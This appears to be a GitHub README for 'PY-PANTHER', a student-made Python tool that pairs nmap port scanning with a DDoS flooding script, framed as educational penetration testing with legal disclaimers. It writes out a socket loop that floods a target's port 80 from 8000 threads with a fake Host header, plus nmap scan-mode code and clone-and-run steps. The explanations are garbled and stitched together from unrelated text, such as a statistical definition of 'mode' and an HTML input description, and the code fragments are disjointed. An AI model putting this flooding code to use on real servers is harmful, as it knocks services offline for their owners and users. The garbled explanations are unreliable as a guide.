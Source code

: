 PY-PANTHER
==========

 Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal..
 
 ---
 INTRODUCTION
----------------
 we are going to write a penetration-testing script, namely a DDOS script, in Python. This program will allow us to flood a server with so many reqeusts that, after a while, it won’t be able to respond anymore and it will go down.

But let me give you a big warning here! Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal. I do not recommend the attacks on any servers other than your own and I am not responsible for what you are going to do with this script. This post is purely educational and shall help you to understand networking and programming with Python. So don’t do stupid things!

WHAT IS DDOS?

DDOS stands for Distributed Denial of Service and it is an attack where we block the ressources of a server by flooding it with requests. Usually this kind of attack is never performed alone but with the help of so-called botnets.
![PY-PANTHER](https://www.neuralnine.com/wp-content/uploads/2019/09/botnet2-1024x702.png)

In a botnet, one hacker infects many computers and servers of ordinary people, in order to use them as zombies. He uses them for a collective attack onto a server. Instead of one DDOS script, he can now run thousands of them. Sooner or later the server will be overwhelmed with the amount of requests so that it is not even able to respond to an ordinary user. For smaller and weaker servers, sometimes one attacker is enough to get it down. However, usually such an attack can be counteracted by blocking the IP-addresses of the attackers.

WHAT IS NMAP?
Nmap, short for Network Mapper, is a free, open-source tool for vulnerability scanning and network discovery. Network administrators use Nmap to identify what devices are running on their systems, discovering hosts that are available and the services they offer, finding open ports and detecting security risks.


Implementing The DDOS Script

The implentation of a DDOS script in Python is quite simple. We only need to send requests to a host on a specific port over and over again. This can be done with sockets. To speed the process up and make it more effective, we will use multi-threading as well. So, the following libraries will be needed for this tutorial:

```
import socket
import threading
```
then write the executable code

```
def restart_program() :
    python = sys.executable
    os.execl(python, python, *sys.argv)
    os.system('clear')
```
We all know, what import nmap is for, to import the nmap module to our python script.
Then we initialise the Nmap PortScanner to scan the ports on our local network.
```
scanner = nmap.PortScanner()
```
The type of scan we use in this attacks are:
```
mode = input("""\nEnter the type of scan!!!
                  [1] Domain LookUp
                  [2] Whole Network Scan
                  [3] Simple Network scan
                  [4] Aggressive Scan 
                  [5] CVE Scan
                  [00] Back\nEnter your option : """)
        print("\nYou have selected option: ", mode)
```        

The mode of a set of data values is the value that appears most often. It is the value at which the data is most likely to be sampled.
```
if mode == '1' :
```
The <input type="url"> defines a field for entering a URL.The input value is automatically validated before the form can be submitted.
```
 url = input("Enter the Domain Name : ")
 ```
 
 the if statements used for the conditional execution
 ```
  a = platform.system()
            if a == 'Windows' :
                print(os.system('ipconfig'))
            elif a == 'Linux' :
                print(os.system('ifconfig'))
            elif a == 'Darwin' :
                print(os.system('ifconfig'))
```
Enumerating(counting and listing one by one) all the open ports on You can also provide the IP address of any remote server as well, to scan
```
lport = scanner[ip][proto].keys()
```
As I already mentioned, DDOS is illegal. So be careful witht the target that you choose here. You can also choose your home server, your printer or maybe even your own website. If you don’t know your IP-address, you can use your command line and ping the domain to get it. As a fake IP-address I chose a random but still valid address. Last but not least, I decided to attack the port 80, which is HTTP. If you want to shut down a specific service, you need to know which port it is operating at.
```
  def attack() :
        while True :
          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((target, port))
          s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
          s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
```
We created a variable attack_num that tracks how many requests have been sent already. With every iteration, we increase this number and print it.
```
  global attack_num
  attack_num += 1
  print(attack_num)
  
  s.close()
```
In this case, we are starting 8000 threads that will execute our function.
Of course, you can play around with the number.When we now execute our script, we will DDOS the target but we won’t see anything.
If you want to see some information, you may print the amounts of requests already sent.
just notice that this will slow down your attack.
```
    for i in range(8000) :
        thread = threading.Thread(target=attack)
        thread.start()
```
How to use it
-------
 First unload and allow permisions.
```
git clone https://github.com/redteamacademy/ADCDGRP/pypanther.git
cd pypanther
chmod +x pypanther
```
If it does not work, try to install all the libraries that are located in the file **requirements.txt**
```
pip install -r requirements.txt
```
RUN
```
./pypanther
OR
python3 pypanther
```
Disclaimer
-------
This tool has been published educational purposes. It is intended to teach people how bad guys could track them, monitor them or obtain information from their credentials, we are not responsible for the use or the scope that someone may have through this project.

We are totally convinced that if we teach how vulnerable things really are, we can make the Internet a safer place.

Developer
-------
ADCD STUDENTS COCHIN & CALICUT

Happy Pentesting!
-------
I invite you, if you use this tool helps to share, collaborate. Let's make the Internet a safer place, let's report.

## License

The content of this project itself is licensed under the [Creative Commons Attribution 3.0 license](http://creativecommons.org/licenses/by/3.0/us/deed.en_US), and the underlying source code used to format and display that content is licensed under the [MIT license](http://opensource.org/licenses/mit-license.php).

Copyright, REDTEAM & STUDENTS

